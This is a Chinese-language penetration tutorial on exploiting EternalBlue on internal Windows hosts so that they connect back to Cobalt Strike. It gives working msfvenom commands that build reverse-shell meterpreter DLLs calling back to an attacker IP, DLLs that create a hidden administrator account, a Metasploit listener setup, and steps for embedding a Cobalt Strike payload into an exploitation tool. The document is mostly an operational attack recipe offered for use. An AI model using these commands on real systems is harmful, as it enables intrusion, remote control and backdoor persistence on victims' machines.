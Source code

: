 内网有时候没办法了，有入口，但是处于一种尴尬的区域，需要扩大成果，眼前也只有几台永恒之蓝可以打了，没办法了，但是MSF又不太适合维持权限，于是想办法永恒之蓝上线CS。

<a name="22Pz3"></a>
## 前提要求：
1.目标机子出网<br />2.没有开启防火墙、杀软之类<br />3.存在永恒之蓝

<a name="bM2Pv"></a>
## Erebus插件
Erebus→pwn→eterblue<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1623426183486-eff83241-3efa-4d4b-b3f5-38e39ec801fa.png#height=193&id=jJafE&originHeight=257&originWidth=406&originalType=binary&ratio=1&size=19172&status=done&style=none&width=305)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1623426222767-e0cfda24-bc79-4abb-83a5-d0efc5c06b94.png#height=49&id=TCtSv&originHeight=98&originWidth=1914&originalType=binary&ratio=1&size=28630&status=done&style=none&width=957)

<a name="d40JZ"></a>
## Cobalt Strike DLL用于永恒之蓝注入 
参考文章：<br />[http://www.dark5.net/blog/2019/06/26/Cobalt-Strike-DLL%E7%94%A8%E4%BA%8E%E6%B0%B8%E6%81%92%E4%B9%8B%E8%93%9D%E6%B3%A8%E5%85%A5/](http://www.dark5.net/blog/2019/06/26/Cobalt-Strike-DLL%E7%94%A8%E4%BA%8E%E6%B0%B8%E6%81%92%E4%B9%8B%E8%93%9D%E6%B3%A8%E5%85%A5/)
<a name="uM5uP"></a>
## tips
<a name="lvNOF"></a>
### msf生成dll常见的命令
**x64**<br />msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.116 LPORT=5555 -f dll >x64.dll

**x86**<br />msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=xx.xx.xx.xx LPORT=4444 -f dll >xxx.dll

**生成 x86的命令执行dll**<br />msfvenom -p windows/exec cmd="net user qaxnb$ Qaxnb123. /add" exitfunc=process -a x86 -f dll > x86.dll

msfvenom -p windows/exec cmd="net localgroup administrators qaxnb$ /add" exitfunc=process -a x86 -f dll > x861.dll  

**生成x64命令执行dll**<br />msfvenom -p windows/x64/exec cmd="net user qaxnb$ Qaxnb123. /add" exitfunc=process -a x64 -f dll > x64.dll  

<a name="FKDuW"></a>
### msf的监听

# use exploit/multi/handler<br /># set payload windows/x64/meterpreter/reverse_tcp<br /># set lhost 192.168.1.116<br /># set lport 5555<br /># exploit


<a name="Qanxx"></a>
## 永恒之蓝上线cs操作：


根据版本选择系统位数的raw<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1623426890787-3c3edd12-2448-4e14-a65d-4180c916f2de.png#height=259&id=RFsOe&originHeight=518&originWidth=1114&originalType=binary&ratio=1&size=357152&status=done&style=none&width=557)<br />生成的payload.bin文件<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1623427029222-179c10cc-c93a-4d1c-bce6-e9ea00ef13fb.png#height=318&id=vmq7g&originHeight=423&originWidth=638&originalType=binary&ratio=1&size=36138&status=done&style=none&width=479)<br />然后利用msf生成对应的dll文件<br />**要注意**
```python
64位
msfvenom -p generic/custom PAYLOADFILE=./payload.bin -a x64 --platform windows -f dll -o x64.dll
32位
msfvenom -p generic/custom PAYLOADFILE=./payload.bin -a x86 --platform windows -f dll -o x86.dll
```
生成的x64.dll文件<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1623427221829-c16786f7-384a-493e-957f-d23a3376e72e.png#height=129&id=Z0xXg&originHeight=129&originWidth=768&originalType=binary&ratio=1&size=66568&status=done&style=none&width=768)<br />替换掉ZombieBoyTools中的x64.dll文件<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1623427274952-df05f0b9-764c-4be6-ba5c-e2cb06686b7f.png#height=218&id=eNTSQ&originHeight=291&originWidth=783&originalType=binary&ratio=1&size=38535&status=done&style=none&width=587)<br />Eternablue注意箭头的操作，如果出现win了，就没问题了。<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1623427391052-60ddf046-fc06-480a-a451-e64bd4d1695b.png#height=457&id=ldcBJ&originHeight=913&originWidth=718&originalType=binary&ratio=1&size=72690&status=done&style=none&width=359)<br />Double中选好ip和系统位数然后点击Attack<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1623427344839-b77ddb70-8cd2-4ab0-9ce0-b62d1eca5fce.png#height=457&id=VHKka&originHeight=913&originWidth=718&originalType=binary&ratio=1&size=74493&status=done&style=none&width=359)<br />CS成功上线<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1623427479031-9e9095d5-a76a-43b4-ade3-d013e4d57a0e.png#height=450&id=bMaQJ&originHeight=600&originWidth=800&originalType=binary&ratio=1&size=75098&status=done&style=none&width=600)
